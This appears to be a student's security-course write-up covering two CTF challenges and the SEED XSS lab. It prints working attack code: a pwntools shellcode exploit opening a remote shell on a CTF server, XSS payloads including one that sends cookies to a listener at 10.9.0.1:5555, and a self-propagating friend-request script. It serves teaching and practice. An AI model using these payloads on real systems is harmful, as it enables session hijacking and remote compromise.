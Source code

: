 # Trabalho Realizado na Semana 5

## CTF

### Desafio 1

For this challenge, after we send a justification, we go to a page where the admin can give the flag and mark the request as read. These buttons are only enbaled to the admin so our purpose is to make the admin click the button `Give Flag` for us. For that, we can use the justification: `<script>document.getElementById('giveflag').click()</script>`, which will try to click the button everytime someone enters the page.

When the admin goes to evaluate the request, the script will click the button, and as it will be enabled, the flag will be given to us.

Flag:
```
flag{754649a1f0ffcd9943a6fafb3ca59853}
```

### Desafio 2

This is a simple shellcode execution attack. We have a buffer of 100 bytes, which is large enough to store our shellcode, and the program prints the buffer base address, which we can use as return address.

The smplified payload would be: `shellcode + trash + buffer address`

To get the return address offset, we used the following python script:

```py
from pwn import *

context.update(arch='i386', os='linux')

p = process("./program")
gdb.attach(p)
pause()

p.sendline(cyclic(150))
p.interactive()
```

From this, the program crashes at `daab`. Using this value in the function `cyclic_find` we get the offset, which is 112.

With the offset, we can now build our script to open the shell on the server:

```py
from pwn import *

context.update(arch='i386', os='linux')

LOCAL = False

if LOCAL:
    p = process("./program")
    gdb.attach(p)
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
buffer = p.recvuntil(b".")[:-1]
buffer = (int(buffer, 16))

shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = shellcode + b'\x00' * (cyclic_find('daab') - len(shellcode) - 4)
payload += p32(buffer)

p.sendline(payload)
p.interactive()
```

This successfully opens a shell in the server, and using the command `cat flag.txt` we get the flag.

Flag:
```
flag{5155603df944885d37463ad476a1accd}
```

---

## Cross-Site Scripting (XSS) Attack Lab

### Task 1

For this task we just needed to log in as any one of the users in the database (with the credentials given) and edit the user's description to have the following text:

```html
<script>alert('XSS');</script>
```

This will trigger an alert message when any user enters that profile.

### Task 2

With the following description, whenever a user joins that profile, their cookies will be displayed in an alert window:

```html
<script>alert(document.cookie);</script>
```

Cookies example:
```
pvisitor=a02dec0a-c90f-4a12-acaa-ca277c1f8a1d; PHPSESSID=j5u1i90e7ve1umqhfil26rsuk6; Elgg=1sof8kijmob8riqak3r8qaku3e
```

### Task 3

For this task we will use the following description:

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + ' >');
</script>
```

Using the `nc -lknv 5555` command, we can listen to the TCP port 5555, and get the cookies of the other users:
```
Connection received on 10.0.2.4 34434
GET /?c=pvisitor%3Da02dec0a-c90f-4a12-acaa-ca277c1f8a1d%3B%20PHPSESSID%3Dj5u1i90e7ve1umqhfil26rsuk6%3B%20Elgg%3D0gdcs8aalkh93malsee9c88pld HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
```

### Task 4

In order to make any user send a friend request whenever accessing `samy`'s profile, we need to change his `About Me` to the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax = null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

With this script, any user that joins the profile automatically sends a friend request.

#### Question 1

Lines 1 and 2 are used to authenticate the user whenever the request is made to the url. Each user has security tokens that are used in order to prevent other users from making requests in their name. This ensures that the requests are actually being sent by the user. Without them, the request would fail.

#### Question 2

No, if the Elgg application only provided the Editor mode for the “About me” field, the attack would not be successful because the Editor mode adds extra HTML and changes some of the symbols, such as `<` to `&gt;`.
